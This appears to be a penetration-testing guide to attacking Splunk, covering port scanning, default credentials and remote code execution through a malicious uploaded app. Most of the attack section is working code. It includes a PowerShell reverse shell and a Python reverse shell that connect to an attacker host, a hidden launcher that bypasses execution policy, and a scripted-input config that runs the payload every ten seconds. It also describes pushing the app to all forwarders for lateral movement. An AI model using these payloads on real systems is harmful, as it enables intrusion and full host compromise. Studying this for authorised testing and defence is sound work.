


**Splunk** is a centralized logging and analytics platform commonly deployed in enterprise environments to collect, index, and search large volumes of data. During a penetration test, it becomes a high-value target because it often runs with elevated privileges and may store sensitive logs, credentials, or internal infrastructure details. 

---

## Service Discovery and Exposure

Splunk typically exposes a web interface and a management API. Identifying these services early helps confirm the presence of the platform and guides further enumeration.

### Identifying Splunk services

A standard service scan often reveals Splunk running on ports **8000 (web UI)** and **8089 (management API)**:

```bash
nmap -sV -p 8000,8089 10.10.10.10
```

Example output:

```text
8000/tcp open  ssl/http  Splunkd httpd
8089/tcp open  ssl/http  Splunkd httpd
```

Accessing the web interface:

```http
https://target:8000/
```

The login panel usually clearly identifies the service as Splunk.

### Authentication weaknesses

Older deployments or misconfigured instances may use weak or default credentials:

- `admin:changeme`
    
- `admin:admin`
    
- `admin:password`
    

In some cases, Splunk runs in **free mode**, which disables authentication entirely, allowing direct access to the dashboard.

---

## Enumeration of the Platform

Once access is obtained (authenticated or not), the goal is to understand capabilities and identify abuse paths.

### Accessing the dashboard

```http
https://target:8000/en-US/app/launcher/home
```

From here, an attacker can:

- Search indexed logs
    
- Access installed applications
    
- Configure inputs and scripts
    
- Install new applications
    

### Interesting areas to inspect

Focus on:

- **Apps section** → upload/install functionality
    
- **Settings → Data Inputs** → scripted inputs
    
- **Search & Reporting** → sensitive log data
    

Splunk often contains credentials, tokens, internal IPs, and API keys within logs.

---

## Remote Code Execution via Custom Application

Splunk supports installing custom applications that extend its functionality. These apps can include **scripted inputs**, which are automatically executed by the Splunk service. If an attacker can upload a custom app (through authenticated access or misconfiguration), this mechanism can be abused to execute arbitrary code on the host.

### Preparing a malicious application

The attack relies on creating a valid Splunk app structure where a script is executed periodically via `inputs.conf`.

Create the required directory structure:

```bash
mkdir -p splunk_shell/{bin,default}
```

The `bin/` directory stores executable scripts, while `default/` contains configuration files that instruct Splunk what to run.

#### Reverse shell script (run.ps1)

This script establishes a reverse connection back to the attacker and executes commands received over the socket:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.80',4444);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()}
$client.Close()
```

#### Launcher script (run.bat)

Splunk executes this file, which in turn launches the PowerShell payload in a stealthy way:

```bash
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

#### Configuration file (inputs.conf)

This file is the key component. It defines a **scripted input**, forcing Splunk to execute the payload periodically:

```bash
[script://.\bin\run.bat]
disabled = 0
interval = 10
sourcetype = shell
```

- `disabled = 0` enables execution
    
- `interval = 10` runs the script every 10 seconds
    

### Packaging the application

Once the structure is complete, package it into a format accepted by Splunk:

```bash
tar -cvzf splunk_shell.tar.gz splunk_shell/
```


### Gaining Code Execution

#### Starting a listener

Before uploading the app, start a listener to catch the reverse shell:

```bash
penelope -p 4444
```

#### Uploading the malicious app

Access the Splunk app management interface:

```http
https://target:8000/en-US/manager/search/apps/local
```

Then, interact with the `Inatll app from file` button:


Use the “Install app from file” option to upload the `.tar.gz`.



Once installed, Splunk automatically enables the app and executes the configured scripted input without further interaction.

#### Resulting shell

```text
connect to [10.10.14.80] from [target] 53145

PS C:\Windows\system32> whoami
nt authority\system
```

The execution context depends on how Splunk is running, but it is commonly **SYSTEM on Windows** or **root on Linux**, which results in immediate full system compromise.


---

## Alternative Execution (Linux Targets)

If the target is Linux, a Python reverse shell can be used instead.

```python
import socket,os,pty
s=socket.socket()
s.connect(("10.10.14.80",4444))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/bash")
```

The rest of the process (packaging and upload) remains identical.

---

## Lateral Movement via Deployment Server

If the compromised Splunk instance acts as a **deployment server**, it can push applications to other hosts.

### Deployment path

```bash
$SPLUNK_HOME/etc/deployment-apps/
```

Placing the malicious app in this directory allows execution across all connected **forwarders**, potentially compromising multiple systems at once.
